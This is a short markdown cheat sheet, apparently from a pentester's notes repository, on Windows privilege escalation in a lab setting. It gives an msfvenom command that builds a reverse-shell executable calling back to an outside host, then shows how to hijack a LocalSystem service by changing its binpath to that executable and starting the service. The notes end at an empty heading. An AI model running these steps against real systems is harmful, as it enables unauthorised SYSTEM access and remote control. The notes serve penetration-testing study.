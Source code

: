 ```yaml
---
title: Windows Privesc
description: Windows privilege escalation.
---
```


# Windows Privesc

## Tools

- [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS).

## Reverse shell

Using `msfvenom` :

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.52.128 LPORT=8888 -f exe -o revshell.exe
```

Using [nishang](https://github.com/samratashok/nishang).

## Permissions

## View

List permissions of a user using `accesschk.exe`.

```powershell
C:\> accesschk.exe /accepteula -uwcqv <USER> <SERVER>

C:\> accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

## SERVICE_CHANGE_CONFIG

**SERVICE_CHANGE_CONFIG :** Change the service configuration.

```powershell
# Check the service 'daclsvc' configuration (qc : query configuration)
C:\PrivEsc>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

# Change the binpath value
C:\PrivEsc>sc config daclsvc binpath="\"C:\Users\user\revshell.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc>sc qc daclsvc
[...]
        BINARY_PATH_NAME   : "C:\Users\user\revshell.exe"
[...]

# Start the service 'daclsvc'
C:\PrivEsc>net start daclsvc
```

## Service unquoted path